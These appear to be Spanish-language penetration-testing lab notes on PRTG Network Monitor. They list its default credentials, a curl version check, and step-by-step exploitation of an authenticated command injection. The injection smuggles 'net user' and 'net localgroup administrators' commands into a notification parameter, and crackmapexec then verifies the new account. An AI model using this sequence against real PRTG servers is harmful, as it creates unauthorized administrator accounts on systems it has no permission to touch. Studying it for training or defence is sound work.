 ### Info

- Es usado para monitorear el tráfico del ancho de banda
- actualizar y recolectar estadisticas de varios hosts incluyendo routers, switches, servers.
- Se puede consultar la información recopilada desde la REST API.
- Es un servicio que corre en AHAX-based website
- Default keys: prtgadmin:prtgadmin

### ENUM

Podemos llegar al login simplemente accediendo a la web con el puerto:

    http://10.129.201.50:8080/index.htm

##### Version:

    curl -s http://10.129.201.50:8080/index.htm -A "Mozilla/5.0 (compatible;  MSIE 7.01; Windows NT 5.0)" | grep version


### Explotación:

Si la versión es menor a 18.2.39, entonces sufre una authenticated command-injection.

##### 1)Vamos a setup > Account settings > Notifications
##### 2)Add new notification
##### 3)Le damos a la notificación un nombre y vamos al fondo a darle a "execute program"
##### 4)Luego seleccionamos "Demo exe notification -outfile.ps1" en la opción "Program file"
##### 5) En la opción parameter inyectamos el comando (correrá en un powershell)
    test.txt;net user <user> <pass> /add;net localgroup administrators <user> /add
##### 6)Le damos a "save" y nos redirige a notifications donde vamos a tener nuestra notificación.
##### 7)Le damos a test (si hay un pop up con un error, podemos doblechequear la notificación y correrlo otra vez)
##### Luego testeamos con crackmapexec para ver si se creó el user

    sudo crackmapexec smb 10.129.201.50 -u <user> -p <pass> 
